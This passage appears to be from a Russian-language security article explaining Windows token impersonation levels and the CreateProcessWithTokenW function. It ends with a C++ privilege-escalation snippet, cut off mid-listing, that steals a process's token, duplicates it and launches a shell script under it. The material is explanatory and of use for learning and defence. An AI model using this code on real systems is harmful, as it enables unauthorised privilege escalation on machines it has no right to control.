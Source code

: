 И вновь может воз­никнуть путани­ца с `ImpersonationLevel`. Это дей­стви­тель­но уро­вень имперсо­нации, то есть он опре­деля­ет, нас­коль­ко токен может оли­цет­ворять объ­ект. Сущес­тву­ют сле­дующие вари­анты:

-   `SecurityAnonymous` — токен с таким уров­нем перевоп­лощения не может быть исполь­зован для соз­дания про­цес­са, заимс­тву­юще­го пра­ва. Ано­ним­ный уро­вень под­держи­вает­ся толь­ко для меж­про­цес­сно­го вза­имо­дей­ствия (нап­ример, для име­нован­ных каналов). Все осталь­ные спо­собы прос­то повыша­ют его до `SecurityIdentification`;
-   `SecurityIdentification` — может быть исполь­зован для иден­тифика­ции (мож­но будет узнать поль­зовате­ля и груп­пу, ACL поль­зовате­ля), но НЕЛЬ­ЗЯ будет при­менять для имперсо­нации или в вызовах `CreateProcessAsUser()`, `CreateProcessWithTokenW()` и подоб­ных;
-   `SecurityImpersonation` — пол­нофун­кци­ональ­ный мар­кер, с помощью которо­го мож­но оли­цет­ворять кого‑либо в локаль­ной сис­теме, но нель­зя оли­цет­ворять в уда­лен­ных сис­темах;
-   `SecurityDelegation` — мар­кер может оли­цет­ворять кли­ента в уда­лен­ных сис­темах. Самый мощ­ный уро­вень.

## Создание процесса

Сле­дующим шагом идет вызов `CreateProcessWithTokenW()`. Эта фун­кция соз­дает про­цесс, а затем при­вязы­вает к нему ука­зан­ный токен:

```
BOOL CreateProcessWithTokenW(
[in] HANDLE hToken,
[in] DWORD dwLogonFlags,
[in, optional] LPCWSTR lpApplicationName,
[in, out, optional] LPWSTR lpCommandLine,
[in] DWORD dwCreationFlags,
[in, optional] LPVOID lpEnvironment,
[in, optional] LPCWSTR lpCurrentDirectory,
[in] LPSTARTUPINFOW lpStartupInfo,
[out] LPPROCESS_INFORMATION lpProcessInformation
);
```

Единс­твен­ный минус — у тебя дол­жна быть при­виле­гия `SeImpersonatePrivilege`, в про­тив­ном слу­чае вызов обер­нется ошиб­кой. Однажды, ког­да мне тре­бова­лось повысить пра­ва в сис­теме и име­лась учет­ная запись с этой при­виле­гией, я нашел сле­дующий код:

```
#include <windows.h>
#include <iostream>

int main(int argc, char * argv[]) {
	char a;
	HANDLE processHandle;
	HANDLE tokenHandle = NULL;
	HANDLE duplicateTokenHandle = NULL;
	STARTUPINFO startupInfo;
	PROCESS_INFORMATION processInformation;
	DWORD PID_TO_IMPERSONATE = 3060;
	wchar_t cmdline[] = L"C:\\shell.cmd";
	ZeroMemory(&startupInfo, sizeof(STARTUPINFO));
	ZeroMemory(&processInformation, sizeof(PROCESS_INFORMATION));
	startupInfo.cb = sizeof(STARTUPINFO);
	
	processHandle = OpenProcess(PROCESS_ALL_ACCESS, true, PID_TO_IMPERSONATE);
	OpenProcessToken(processHandle, TOKEN_ALL_ACCESS, &tokenHandle);
	DuplicateTokenEx(tokenHandle, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &duplicateTokenHandle);
	CreateProcessWithTokenW(duplicateTokenHandle, LOGON_WITH_PROFILE, NULL, cmdline, 0, NULL, NULL, &startupInfo, &processInformation);
	
	std::cin >> a;
	
	// CloseHandle() опустил
```
